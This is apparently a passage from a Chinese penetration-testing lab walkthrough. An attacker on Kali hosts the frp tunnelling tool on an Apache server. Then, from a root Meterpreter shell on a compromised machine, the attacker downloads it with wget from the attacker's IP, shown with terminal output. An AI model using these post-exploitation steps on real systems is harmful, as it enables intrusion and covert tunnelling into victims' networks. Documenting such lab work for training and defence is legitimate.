 ![image-20211012220153531](assets/image-20211012220153531.png)



kali复制frp_0.37.1_linux_amd64.tar.gz到web服务路径下：/var/www/html 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo cp frp_0.37.1_linux_amd64.tar.gz /var/www/html            #复制frp到web服务路径下：/var/www/html  
[sudo] kali 的密码：

┌──(kali㉿kali)-[~]
└─$ systemctl start apache2                                        #开启apache2服务
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
启动“apache2.service”需要认证。
Authenticating as: Kali,,, (kali)
Password:
==== AUTHENTICATION COMPLETE ===

┌──(kali㉿kali)-[~]
└─$
```



kali机器上：通过已经得到的反弹shell下，`wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz`下载

```
meterpreter > shell           #获得系统的shell
Process 9697 created.
Channel 1 created.
id                           #id命令
uid=0(root) gid=0(root) groups=0(root),994(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz        #wget下载frp
--2021-10-13 15:14:34--  http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz
Connecting to 192.168.111.132:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9033483 (8.6M) [application/x-gzip]
Saving to: 'frp_0.37.1_linux_amd64.tar.gz.1'
```